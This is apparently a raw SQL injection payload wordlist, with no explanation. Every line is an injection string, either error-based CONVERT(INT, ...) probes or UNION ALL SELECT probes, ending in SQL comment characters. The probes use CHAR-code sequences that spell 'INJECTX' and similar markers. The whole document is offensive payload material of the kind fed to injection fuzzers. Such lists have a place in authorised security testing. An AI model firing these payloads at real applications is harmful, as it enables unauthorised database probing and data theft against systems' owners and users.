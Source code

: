  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
 UNION ALL SELECT NULL#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#